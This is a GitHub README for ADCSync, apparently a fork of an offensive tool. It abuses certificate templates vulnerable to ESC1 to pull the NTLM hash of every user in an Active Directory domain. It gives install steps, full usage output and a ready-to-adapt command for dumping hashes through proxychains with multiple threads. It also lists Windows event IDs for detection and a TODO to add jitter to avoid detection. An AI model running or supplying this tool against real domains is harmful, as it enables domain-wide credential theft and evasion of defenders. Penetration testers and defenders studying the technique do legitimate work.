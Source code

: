 # ADCSsync

This is a tool I whipped up together quickly to DCSync utilizing ESC1. It is quite slow but otherwise an effective means of performing a makeshift DCSync attack without utilizing [DRSUAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or [Volume Shadow Copy](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#volume-shadow-copy). 

This is the first version of the tool and essentially just automates the process of running Certipy against every user in a domain. It still needs a lot of work and I plan on adding more features in the future for authentication methods and automating the process of finding a vulnerable template.

## Fork Update

This fork supports proxychains, both bloodhound formats such as raw users.json from SharpHound.exe or manually exported JSON from the old BloodHound.
It will also skip accounts that it already got hashes from and resume where you left off if you get disconnected for whatever reason during runtime.
Various other nice to haves.
There are multiple scripts, adcsync.py is single-threaded. The ADCSync_multi_.py files are all multi-threaded with 4 workers by default using Python's ThreadPoolExecutor.
This also supports the -sid flag in Certipy which is now required for ESC1.
You can choose which users you want to target. Export whatever custom BloodHound neo4j query results to a JSON file that contains the desired accounts.
For example:

```sql
MATCH p = (d:Domain {name: "AD.CORP.LOCAL"})-[r:Contains*1..]->(u:User) WHERE NOT u.name starts with 'KRBTGT' RETURN u
```

## Introduction

ADCSync uses the ESC1 exploit to dump NTLM hashes from user accounts in an Active Directory environment. The tool will first grab every user and domain in the Bloodhound dump file passed in. Then it will use Certipy to make a request for each user and store their PFX file in the certificate directory. Finally, it will use Certipy to authenticate with the certificate and retrieve the NT hash for each user. This process is quite slow and can take a while to complete but offers an alternative way to dump NTLM hashes. 


## Installation

```
git clone https://github.com/mr-pmillz/ADCSync.git
cd ADCSync
virtualenv -p python3 venv
source venv/bin/activate
python3 -m pip install -r requirements.txt
```

## Usage

To use this tool we need the following things:

1. Valid Domain Credentials
2. A user list from a bloodhound dump that will be passed in.
3. A template vulnerable to ESC1 (Found with Certipy find)


```shell
# python3 ADCSync_multi_log_full_with_retry.py --help

usage: ADCSync_multi_log_full_with_retry.py [-h] -f FILE -o OUTPUT -ca-name CA_NAME
                                            -dc-ip DC_IP -dc-fqdn DC_FQDN -u USER
                                            -p PASSWORD -template TEMPLATE -target TARGET
                                            [-t THREADS] [-debug] [-proxychains]

Retrieve NTLM hashes via ADCS ESC1 technique.

options:
  -h, --help            show this help message and exit
  -f, --file FILE       Input User List JSON file from Bloodhound
  -o, --output OUTPUT   NTLM Hash Output file
  -ca-name CA_NAME      Certificate Authority
  -dc-ip DC_IP          IP Address of Domain Controller
  -dc-fqdn DC_FQDN      FQDN of Domain Controller
  -u, --user USER       Username
  -p, --password PASSWORD
                        Password
  -template TEMPLATE    Template Name vulnerable to ESC1
  -target TARGET        CA FQDN
  -t, --threads THREADS
                        Number of threads to use. (default=4)
  -debug                Show verbose debugging information
  -proxychains          Use proxychains4
```

Example command:

```shell
python3 ADCSync_multi_log_full_with_retry.py -f all-ad.corp.local-users.json \
-o dcsync.txt \
-ca-name FOO-CA \
-dc-ip 10.10.10.10 \
-dc-fqdn cool-dc1.ad.corp.local \
-u 'coolbeans@ad.corp.local' \
-p 'PASSWORDHERE' \
-template VULN-ESC1-TEMPLATE-NAME \
-target CA-FQDN.ad.corp.local \
-proxychains \
-debug
```

## Detection

* Event ID 4898: This event is generated every time a certificate template is loaded during enrollment. It records - in detail - the properties and security descriptor of the certificate template.
* Event ID 4887: This event is generated when a certificate is successfully issued to a user.
* Event ID 4888: This event is generated when a certificate request is denied.

## TODO

* Support alternative authentication methods such as NTLM hashes and ccache files
* Automatically run "certipy find" to find and grab templates vulnerable to ESC1
* Add jitter and sleep options to avoid detection
* Add type validation for all variables


## Acknowledgements

* [puzzlepeaches](https://github.com/puzzlepeaches): Telling me to hurry up and write this
* [ly4k](https://github.com/ly4k/Certipy): For Certipy
* [WazeHell](https://github.com/WazeHell/vulnerable-AD): For the script to set up the vulnerable AD environment used for testing
